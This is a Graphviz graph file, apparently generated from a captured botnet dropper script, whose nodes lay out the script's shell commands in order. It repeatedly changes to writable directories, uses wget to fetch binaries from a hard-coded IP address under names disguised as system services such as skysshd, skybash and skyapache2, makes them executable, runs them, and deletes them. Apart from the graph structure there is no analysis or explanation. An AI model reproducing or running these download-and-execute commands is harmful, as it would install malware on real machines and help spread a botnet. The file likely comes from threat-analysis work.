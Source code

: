 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://212.237.53.46/skyntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x skyntpd "];
12 -> 14 [label=";,"];
14 [label="./skyntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf skyntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://212.237.53.46/skysshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x skysshd "];
30 -> 32 [label=";,"];
32 [label="./skysshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf skysshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://212.237.53.46/skyopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x skyopenssh "];
48 -> 50 [label=";,"];
50 [label="./skyopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf skyopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://212.237.53.46/skybash "];
64 -> 66 [label=";,"];
66 [label="chmod +x skybash "];
66 -> 68 [label=";,"];
68 [label="./skybash "];
68 -> 70 [label=";,"];
70 [label="rm -rf skybash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://212.237.53.46/skytftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x skytftp "];
84 -> 86 [label=";,"];
86 [label="./skytftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf skytftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://212.237.53.46/skywget "];
100 -> 102 [label=";,"];
102 [label="chmod +x skywget "];
102 -> 104 [label=";,"];
104 [label="./skywget "];
104 -> 106 [label=";,"];
106 [label="rm -rf skywget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://212.237.53.46/skycron "];
118 -> 120 [label=";,"];
120 [label="chmod +x skycron "];
120 -> 122 [label=";,"];
122 [label="./skycron "];
122 -> 124 [label=";,"];
124 [label="rm -rf skycron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://212.237.53.46/skyftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x skyftp "];
138 -> 140 [label=";,"];
140 [label="./skyftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf skyftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://212.237.53.46/skypftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x skypftp "];
156 -> 158 [label=";,"];
158 [label="./skypftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf skypftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://212.237.53.46/skysh "];
172 -> 174 [label=";,"];
174 [label="chmod +x skysh "];
174 -> 176 [label=";,"];
176 [label="./skysh "];
176 -> 178 [label=";,"];
178 [label="rm -rf skysh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://212.237.53.46/sky "];
190 -> 192 [label=";,"];
192 [label="chmod +x sky "];
192 -> 194 [label=";,"];
194 [label="./sky "];
194 -> 196 [label=";,"];
196 [label="rm -rf sky "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://212.237.53.46/skyapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x skyapache2 "];
210 -> 212 [label=";,"];
212 [label="./skyapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf skyapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://212.237.53.46/skytelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x skytelnetd "];
228 -> 230 [label=";,"];
230 [label="./skytelnetd "];
230 -> 231 [label=";,"];
}
